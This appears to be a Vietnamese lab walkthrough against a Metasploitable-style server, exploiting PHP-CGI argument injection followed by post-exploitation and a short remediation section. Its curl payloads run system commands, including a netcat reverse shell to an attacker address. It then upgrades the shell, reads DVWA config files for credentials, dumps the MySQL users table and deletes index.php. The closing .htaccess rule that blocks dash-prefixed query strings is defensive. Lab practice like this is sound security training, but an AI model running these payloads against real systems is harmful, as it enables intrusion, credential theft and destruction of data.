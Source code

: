## Tùy chọn lệnh
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('whoami'); die(); ?>" --connect-timeout 10
```

## Chím Shell phiên bản ngoài đời thực

-Lắng nghe:
```
nc -lvnp 4444
```

- Thự hiện shell ngược:
```
curl -s -X POST "http://192.168.80.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input" -d "<?php system('nc 192.168.80.2 4444 -e /bin/sh'); die(); ?>" --connect-timeout 10
```

- Chím shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- 📁 4. Khám phá thư mục home, có thể chứa thông tin nhạy cảm [*]
```
cd /home
ls -la
```

- 🔑 5. Tìm kiếm thông tin nhạy cảm: mật khẩu, private key, cấu hình database
```
find /var/www -type f -iname "*config*.php"
```

- 🔍 Đặc biệt chú ý các file trong dvwa, mutillidae, phpMyAdmin, tikiwiki: [*]
cat /var/www/dvwa/config/config.inc.php

```
cat /var/www/dvwa/config/config.inc.php
```

- 🔄 7. Nếu có thông tin đăng nhập MySQL, thử đăng nhập: [*]
```
mysql -u root -p
```

```
show databases;
```

```
USE dvwa;
SHOW TABLES;
SELECT * FROM users;
```


```
exit
```
## Crack password

## Test đăng nhập

## Thăng 


## Tạo thư mục
```
mkdir haidang
```


## xóa file
```
rm index.php
```






# 🛡️ 4. Đề xuất khắc phục

## Lọc Tham Số Nguy Hiểm
> `-d` `-n` `-s` ...

```
export TERM=xterm
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa msfadmin@192.168.80.10
```


```
cd /var/www
sudo nano .htaccess
```

- Dán nội dung sau:
```
<IfModule mod_rewrite.c>
  RewriteEngine On
  RewriteCond %{QUERY_STRING} ^(%2d|-)[^=]+$ [NC]
  RewriteRule ^.* - [F,L]
</IfModule>
```

- reload
```
sudo a2enmod rewrite
sudo /etc/init.d/apache2 force-reload
```

---

- 🛠 Cho phép Apache sử dụng .htaccess
```
sudo nano /etc/apache2/sites-available/default
```

- Tìm:
```
<Directory /var/www/>
    Options Indexes FollowSymLinks MultiViews
    AllowOverride None
    Order allow,deny
    allow from all
</Directory>
```

- ➡ Sửa dòng AllowOverride None thành:
```
AllowOverride All
```

- AllowOverride All

```
sudo /etc/init.d/apache2 restart
```

---

```
sudo ifconfig eth0 192.168.80.10 netmask 255.255.255.0 up 
```
